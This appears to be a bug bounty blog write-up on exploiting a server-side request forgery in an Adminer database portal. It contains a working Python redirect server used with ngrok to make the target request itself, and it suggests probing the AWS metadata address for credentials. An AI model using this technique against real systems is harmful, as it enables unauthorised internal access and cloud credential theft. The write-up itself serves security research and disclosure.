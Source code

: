 ```yaml
---
title: Adminer SSRF in the wild
tags:
  - Bug Bounty
---
```


The other day I came across an Admirer portal while doing some subdomain enumerations in a bug bounty program.


![portal.png](https://ptyhokkaido.github.io/assets/images/adminer-ssrf-portal.png)


> What is Adminer?

>Adminer (formerly phpMinAdmin) is a full-featured database management tool written in PHP. Conversely to [phpMyAdmin], it consists of a single file ready to deploy to the target >server. Adminer is available for MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Elasticsearch, MongoDB and others via plugin.


Took me few minutes of googling to know that the software version running has CVEs assigned, would they be patched on this instance tho? lets give it a try.


## Setting up the enviroment

Now that I think of it I could have done it with help of a collaborator and call it a day but I went for the good old and reliable ngrok, I also had to use a python script so my ngrok would redirect the petition and trick the server into "hitting" itself.


![setup.png](https://ptyhokkaido.github.io/assets/images/adminer-ssrf-setup.png)


Here we've the content of the script.



```cpp
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```




I simply redirected the requests that Im gonna receive on my ngrok to the victim web server, port 443, whichs the Admirer portal itself in this case. If it worked we'd be able to reach the Admirer portal as if we were doing it from localhost.


## Results

We can appreciate in the output that we indeed reached the portal from inside, giving us access to internal services such as the "DEV version..".

Not only that we could use this to scan the internal network, search for some internal APIs and escalate the impact, maybe even just check for AWS credentials trying to reach http://169.254.169.254/latest/meta-data/instance-id if the victim had the service hosted on Amazon.

![localhost.png](https://ptyhokkaido.github.io/assets/images/adminer-ssrf-localhost.png)